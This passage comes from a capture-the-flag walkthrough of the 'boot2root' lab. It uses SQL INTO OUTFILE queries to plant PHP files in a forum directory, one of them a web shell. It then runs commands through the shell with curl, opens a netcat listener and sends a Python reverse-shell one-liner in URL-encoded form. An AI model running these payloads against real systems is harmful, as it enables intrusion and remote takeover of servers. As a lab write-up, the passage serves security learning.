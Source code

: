 We run the following SQL query to upload a PHP script into the directory:

```sql
SELECT "<?php system('id'); ?>" INTO OUTFILE '/var/www/forum/templates_c/id.php';
```

Once the file is created, we access it through the browser and successfully execute the **id** command:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that we are now running commands as the **www-data** user, which opens up further possibilities for privilege escalation.

## 6. Get a Reverse Shell

### Setting up a webshell

Now, let's set up a **web shell** to gain more control over the target system. We will modify our SQL query to create a simple PHP web shell that can execute system commands:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/forum/templates_c/webshell.php';
```

We can now access this web shell by using `curl` to send commands to it:

```bash
xel@lucky7 ~/files/42/boot2root % curl --insecure 'https://192.168.0.31/forum/templates_c/webshell.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that our web shell is working and executing commands as the **www-data** user.

### Setting Up a Reverse Shell

Next, we set up a listener on our host machine to catch the reverse shell:

```bash
xel@lucky7 ~/files/42/boot2root % nc -lvnp 4444
Listening on 0.0.0.0 4444
```

To establish a reverse shell on the target, we take a Python reverse shell script from the **[Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)**. 

```python
export RHOST="192.168.0.24";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

We encode the payload using **CyberChef** with URL encoding, resulting in the following command:

```bash
xel@lucky7 ~/files/42/boot2root % curl --insecure 'https://192.168.0.31/forum/templates_c/webshell.php?cmd=export%20RHOST%3D%22192%2E168%2E0%2E24%22%3Bexport%20RPORT%3D4444%3Bpython%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28os%2Egetenv%28%22RHOST%22%29%2Cint%28os%2Egetenv%28%22RPORT%22%29%29%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27'
```
